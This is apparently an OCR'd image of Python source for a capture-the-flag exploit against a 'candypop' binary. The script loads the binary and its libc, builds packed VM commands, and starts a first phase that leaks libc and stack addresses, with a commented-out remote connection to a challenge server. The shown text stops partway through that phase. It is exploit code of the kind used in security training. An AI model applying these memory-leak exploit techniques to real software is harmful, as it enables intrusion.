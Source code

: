     # Assume the target of the candypop binary.
    target.assume(ELF(local_file('candypop')))
    
    # Load libc.so from ubuntu trusty tahr. Note: the libc.so version was deduced
    # from the gcc signature in the candypop binary.
    libc = ELF(local_file('candypop-libc.so'))
    
    # Function to pack a series of candypop VM commands.
    build = lambda c: pack('>' + 'BBH' * (len(c) // 3), *c)
    
    # Parse a sequence of address parts to an address.
    parse_addr = lambda c: int(b''.join(c), 16)
    
    
    # Connect to the candy machine.
    #f = Flow.connect_tcp('52.16.33.218', 22226)
    # If you want to use the local executable, use:
    f = Flow.execute('./candypop')
    
    # Consume initial output.
    f.until(b'INPUT PROGRAM:\n')
    
    # Phase 1, leak addresses, initiate read.
    f.write(build([
        # Write something to get required addresses on stack.
        0xa5, 0, 0,
    
        # Leak address inside libc.
        0xa5, 15, 0,
        0xa5, 14, 0,
        0xa5, 13, 0,
        0xa5, 12, 0,
    
        # Leak stack address.
        0xa5, 19, 0,
        0xa5, 18, 0,
        0xa5, 17, 0,
        0xa5, 16, 0,
    